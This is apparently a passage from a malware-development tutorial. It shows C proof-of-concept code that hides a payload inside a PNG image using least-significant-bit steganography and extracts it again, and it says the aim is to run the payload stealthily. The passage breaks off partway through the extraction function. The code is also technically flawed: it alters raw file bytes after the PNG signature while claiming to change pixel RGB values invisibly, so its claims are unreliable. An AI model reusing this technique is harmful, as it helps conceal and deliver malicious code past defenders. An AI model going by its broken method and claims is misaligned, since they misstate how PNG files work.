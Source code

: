 ### practical example

I will show a simple proof-of-concept (PoC) in pure C to hide and extract my payload from a PNG image using LSB steganography. Finally, we will execute the extracted payload dynamically to demonstrate its stealthy execution.    

Ok, how it works?    

First of all we need, embedding payload inside PNG image using LSB encoding. So, we need to replace the least significant bit of each pixel's RGB values with bits from the payload. This modification is visually imperceptible:     

```cpp
// function to hide payload inside PNG using LSB
void hide_payload_in_png(const char* input_png, const char* output_png, unsigned char* payload, size_t payload_size) {
  FILE* in = fopen(input_png, "rb");
  FILE* out = fopen(output_png, "wb");

  if (!in || !out) {
    printf("failed to open input/output files. :(\n");
    return;
  }

  // copy PNG header
  unsigned char header[PNG_HEADER_SIZE];
  fread(header, 1, PNG_HEADER_SIZE, in);
  fwrite(header, 1, PNG_HEADER_SIZE, out);

  // embed payload in LSB of image data
  size_t bit_index = 0, byte;
  while ((byte = fgetc(in)) != EOF) {
    if (bit_index / 8 < payload_size) {
      byte = (byte & 0xFE) | ((payload[bit_index / 8] >> (7 - (bit_index % 8))) & 1);
      bit_index++;
    }
    fputc(byte, out);
  }

  fclose(in);
  fclose(out);
  printf("payload hidden inside PNG successfully: %s :)\n", output_png);
}
```

At the next step we need to extract payload from PNG image: read the LSB-encoded data from the image:

```cpp
// function to extract payload from PNG
void extract_payload_from_png(const char* png_file, unsigned char* extracted_payload, size_t payload_size) {
  FILE* in = fopen(png_file, "rb");
  if (!in) {
    printf("failed to open PNG file for extraction. :(\n");
    return;
  }

  fseek(in, PNG_HEADER_SIZE, SEEK_SET);  // skip PNG header

  // extract payload from LSB
  size_t bit_index = 0, byte;
  while ((byte = fgetc(in)) != EOF && bit_index / 8 < payload_size) {
    extracted_payload[bit_index / 8] |= (byte & 1) << (7 - (bit_index % 8));
    bit_index++;
  }
```